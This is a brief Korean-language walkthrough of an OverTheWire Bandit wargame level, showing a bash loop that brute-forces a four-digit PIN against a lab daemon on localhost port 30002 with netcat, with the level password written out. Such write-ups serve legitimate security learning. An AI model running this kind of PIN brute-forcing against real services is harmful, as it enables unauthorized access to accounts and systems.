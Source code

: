 Step 1. 포트 30002에서 데몬이 실행 중이며 bandit24에 대한 패스워드와 pin 코드 4자리가 맞을 경우 bandit25에 대한 패스워드를 알려줍니다. nc로 연결한 결과 한 개씩 대입하기 사실상 힘들기 때문에 쉘 스크립트를 작성합니다.

![Untitled](/assets/bandit_report/Untitled%2029.png)

```bash
#!/bin/bash
for i in {0000..9999}
do
echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
done | nc localhost 30002 | grep -v "Wrong"

```

grep -v 옵션으로 “Wrong” 가 들어가있는 라인 무시

![Untitled](/assets/bandit_report/Untitled%2030.png)

![Untitled](/assets/bandit_report/Untitled%2031.png)

처음에 sh로 실행할 때 for 문이 제대로 실행이 안 되어서 삽질하다가 bash로 실행하면 실행된다는 사실을 알게 됨

Step 2. 해당 스크립트 실행 결과 bandit25 패스워드를 획득했습니다.

![Untitled](/assets/bandit_report/Untitled%2032.png)
